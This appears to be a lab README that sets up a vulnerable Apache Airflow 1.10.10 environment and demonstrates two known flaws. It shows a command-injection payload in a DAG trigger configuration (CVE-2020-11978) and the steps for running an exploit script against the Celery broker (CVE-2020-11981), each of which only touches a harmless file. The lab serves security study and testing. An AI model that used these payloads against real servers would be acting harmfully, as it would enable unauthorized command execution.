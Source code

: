 # Airflow 1.10.10 Multiple Vulnerability Exploits

[中文版本(Chinese version)](./README.zh-cn.md)

Airflow is an open source, distributed task scheduling framework. It assembles a workflow with subordinate and subordinate dependencies into a directed acyclic graph.

The 1.10.10 docker-compose file is modified from the docker-compose file provided by airflow 2.x.

Airflow configuration uses CeleryExecutor for task execution, so the command execution result needs to be viewed in the CeleryWorker  container.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.

## Vulnerability Environment

Execute the following commands to start airflow 1.10.10

```bash
#Initialize the database
docker-compose run airflow-init initdb
#Start service
docker-compose up -d
```

## Exploits

### CVE-2020-11978 - RCE/command execution in example dag

Visit `http://host:8080` to enter the airflow management terminal, and change the Off in front of `example_trigger_target_dag` to On:

![image-20210701142307744](README.assets/image-20210701142307744.png)

Then click the Triger button and enter in `Configuration JSON`: `{"message":"'\";touch /tmp/airflow_dag_success;#"}`, then click `Trigger` to execute dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

Wait a few seconds to see the execution of `success`

![image-20210701142948275](README.assets/image-20210701142948275.png)

Go to the CeleryWorker container to view:

```
docker-compose exec airflow-worker ls -l /tmp
```

You can see that the airflow_dag_success file was successfully created:

![image-20210701143152868](README.assets/image-20210701143152868-1625122787851.png)

### CVE-2020-11981 - Command injection via Celery broker

Airflow uses Celery version 4.0 or higher, so it cannot be exploited through pickle deserialization vulnerability, but it can execute any command by issuing the `airflow.executors.celery_executor.execute_command` task for starting the task. The parameter is the command execution. The required array in.

The exploit script `exploit_airflow_celery.py` only supports use under python3, and the command `touch /tmp/airflow_celery_success` is executed by default

```
pip install redis
python exploit_airflow_celery.py [HostIP]
```

View Results:

```bash
docker-compose logs airflow-worker
```

You can see the following task messages:

![image-20210701153205499](README.assets/image-20210701153205499.png)

```
docker-compose exec airflow-worker ls -l /tmp
```

You can see that the file `airflow_celery_success` was successfully created

![image-20210701153237894](README.assets/image-20210701153237894.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
